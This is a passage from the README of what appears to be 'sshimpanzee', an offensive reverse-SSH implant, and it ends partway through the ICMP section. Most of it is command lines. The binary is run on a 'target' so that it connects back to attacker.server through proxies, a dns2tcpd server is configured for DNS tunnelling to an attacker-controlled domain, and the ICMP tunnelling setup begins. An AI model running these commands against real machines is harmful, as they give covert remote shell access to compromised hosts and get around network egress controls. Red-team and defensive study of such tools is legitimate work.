 ``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 4444" -i CLIENT
```


2) Run sshimpanzee on target :
```
MODE=proxysock REMOTE=attacker.server PORT=4444 http_proxy=socks5://proxy.lan:8080 ./sshimpanzee
```

Other examples:
```
MODE=proxysock REMOTE=attacker.server PORT=4444 http_proxy=http://proxy.lan:8080 ./sshimpanzee
MODE=proxysock REMOTE=attacker.server PROXY_USER=user PROXY_PASS=password PORT=4444 http_proxy=http://proxy.lan:8080 ./sshimpanzee

```



### Use DNS Tunneling

1) On your server run the standard __dns2tcpd__ using the config file in this repo, you will need to modify the domain (and resource port if you want).
```
listen = 0.0.0.0
port = 53
user = nobody
key = sshimpanzee
chroot = /var/empty/dns2tcp/
domain = <SERVER>
resources = sshimpanzee:127.0.0.1:8080
```

```
sudo ./dns2tcpd -F -f dns2tcpdrc
```

2) Run ssh on client side as follow:

``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 8080" -i CLIENT
```

3) Run the sshimpanzee binary:
```
MODE=dns REMOTE=attacker.controled.domain ./sshimpanzee
```

Other examples :
```
MODE=dns REMOTE=attacker.controled.domain RESOLVER=8.8.8.8 ./sshimpanzee # Force the use of 8.8.8.8 DNS Resolver
```

### Use ICMP Tunneling

1) Your server, add the correct capabilities to avoid running the proxycommand as root and disable ping response from the system
``` 
sudo setcap cap_net_raw+ep icmptunnel
echo 1 | sudo dd of=/proc/sys/net/ipv4/icmp_echo_ignore_all 
```
